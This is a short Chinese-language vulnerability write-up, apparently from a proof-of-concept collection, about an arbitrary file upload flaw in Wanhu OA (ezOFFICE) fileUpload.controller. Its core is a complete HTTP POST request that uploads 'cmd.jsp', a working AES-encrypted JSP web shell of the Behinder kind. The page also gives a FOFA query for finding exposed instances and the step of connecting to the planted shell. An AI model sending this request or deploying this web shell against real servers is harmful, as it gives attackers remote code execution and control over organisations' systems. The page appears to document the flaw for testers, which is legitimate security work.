 # 万户OA fileUpload.controller 任意文件上传漏洞

## 漏洞描述

万户OA fileUpload.controller 存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件

## 漏洞影响

<a-checkbox checked>万户OA</a-checkbox></br>

## FOFA

<a-checkbox checked>app="万户网络-ezOFFICE"</a-checkbox></br>

## 漏洞复现

产品页面

![img](../../../.vuepress/public/img/1628348571931-52bde954-fcd0-485f-bc17-1494f5eb53f4.png)

发送请求包上传文件

```php
POST /defaultroot/upload/fileUpload.controller HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:50.0) Gecko/20100101 Firefox/50.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: Keep-Alive
Content-Type: multipart/form-data; boundary=KPmtcldVGtT3s8kux_aHDDZ4-A7wRsken5v0
Content-Length: 773

--KPmtcldVGtT3s8kux_aHDDZ4-A7wRsken5v0
Content-Disposition: form-data; name="file"; filename="cmd.jsp"
Content-Type: application/octet-stream
Content-Transfer-Encoding: binary

<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";/*......tas9er*/session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
--KPmtcldVGtT3s8kux_aHDDZ4-A7wRsken5v0--
```

![img](../../../.vuepress/public/img/1628348700247-9ac78c6c-b56f-4137-a0b3-ba3b13733c19.png)

使用冰蝎连接木马 **/defaultroot/upload/html/xxxxxxxxxx.jsp**

![img](../../../.vuepress/public/img/1628349045223-89889c4f-c7e6-4a31-af77-5c58fa8749b4.png)





若有收获，就点个赞吧
